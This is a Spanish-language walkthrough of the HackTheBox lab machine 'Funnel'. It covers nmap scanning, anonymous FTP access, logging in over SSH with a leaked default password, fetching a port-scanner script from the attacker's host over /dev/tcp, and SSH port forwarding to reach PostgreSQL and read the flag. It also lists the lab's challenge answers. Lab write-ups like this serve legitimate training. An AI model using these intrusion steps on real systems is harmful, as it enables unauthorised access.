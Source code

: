 1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor FTP?
	mail_backup

3)¿Cuál es la contraseña por defecto de la cuenta que todo nuevo miembro del equipo «Embudo» debe cambiar lo antes posible?
	funnel123#!#

4)¿Qué usuario no ha cambiado aún su contraseña por defecto?
	christine

5)¿Qué servicio se ejecuta en el puerto TCP 5432 y sólo escucha en localhost?
	postgresql

6)En este escenario, necesitas acceder a un servicio que se ejecuta en el servidor. Por lo tanto, generará tráfico dirigido a un puerto en su máquina local y, a su vez, SSH hará un túnel con este tráfico hacia el puerto remoto.
	local port forwarding
	Por que tenemos que conectarnos desde la maquina victima a la postresql, no nos podemos conectar directamente desde nuestra maquina, dado que el puerto esta expuesto internamente 

7)¿Cómo se llama la base de datos que contiene la bandera?
	secrets

8)¿Podría utilizar un túnel dinámico en lugar del reenvío local de puertos? Sí o No.
	yes
	- **Si solo querés conectar un puerto específico** (como PostgreSQL en el puerto 5432 remoto) —> Usás **reenvío local (-L)**.
	- **Si querés enrutar tráfico de múltiples puertos o aplicaciones** a través de un proxy, sin configurar puertos específicos —> Usás **túnel dinámico (-D)**.

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.243.9
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.243.9 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22 10.129.243.9 -oN target
```

![[Funnel1.png]]

![[Funnel2.png]]

![[Funnel3.png]]
Por el ttl sabemos que es una maquina linux

*Puertos Abiertos*:
`21` FTP y tiene vulnerabilidad para conectarse con el usuario anonymous 
`22` ssh

------
# Conexion por [[ftp]]

Nos conectamos con el comando `ftp 10.129.243.9`, en usuario ponemos anonymous y en contraseña no colocamos nada. Esta es la vulnerabilidad que vimos antes con el escaneo de nmap
Entramos al directorio mail_backup y descargamos con el comando `get` los archivos password_policy.pdf y welcome_28112022

![[Funnel4.png]]

----------
### Analizamos el contenido de los archivos

*Archivo welcome_28112022:*

![[Funnel5.png]]
Nos da la informacion de que existen los usuarios, optimus, albert, andreas, christine, y maria

*Archivo password_policy.pdf*
Lo abrimos con el comando `xdg-open password_policy.pdf`

![[Funnel6.png]]
Nos informa que los usuarios nuevos tienen por defecto la contraseña ``funnel123#!#``

--------
## Conexion por [[ssh]]

El usuario christine no habia cambiado su contraseña y nos conectamos con `ssh christine@10.129.243.9 -p 22` y al conectarnos hacemos el [[Tratamiento de la TTY]]
![[Funnel7.png]]

------------
### Vamos a escanear los puertos con [[portScanner.sh a nivel local]]

Nuestra maquina: nc -nlvp 443 < portScanner.sh
Maquina victima: cat < /dev/tcp/10.10.16.3/443 > portScanner.sh

```
#!/bin/bash

function ctrl_c(){
  echo "[!]Saliendo..."
  exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
  timeout 1 bash -c "echo '' > /dev/tcp/127.0.0.1/$i" 2>/dev/null && "[!]Puerto abierto: $i" &
done
```

Y le damos permiso de ejecucion al archivo con `chmod +x portscanner.sh`

![[Funnel8.png]]
Sabemos que esta abierto el 21:ftp, 22:ssh, y el 5432 que no sabemos que es

Para saber que servicio corre en el puerto 5432 vamos a usar `getent services 5432`                         | [[getent services]] 
Y por detecto en este puerto corre el servicio postgresql
![[Funnel9.png]]

--------

# Conexion por [[postgresql]] y tunneling de [[ssh]]

Nos vamos a conectar nuevamente por [[ssh]] pero haciendo que el puerto de la maquina victima 5432 sea nuestro puerto 1234
``ssh -L 1234:localhost:5432 christine@10.129.243.9``


Y ahora nos vamos a poder conectar a la [[postgresql]]

``psql -U christine -h localhost -p 1234``
y cuando nos pide contraseña ponemos la misma de antes funnel123#!#

Una vez dentro de la base de datos, listamos la flag
```posgresql
`\l                   |para ver las bases de datos
\c                    |secrets para usar la base de datos
\dt                   |para ver las tablas y columnas
SELECT * FROM flag;   | para listar todo el contenido de la tabla flag
```

![[Funnel10.png]]
# Creditos
Writeup Oficial HackTheBox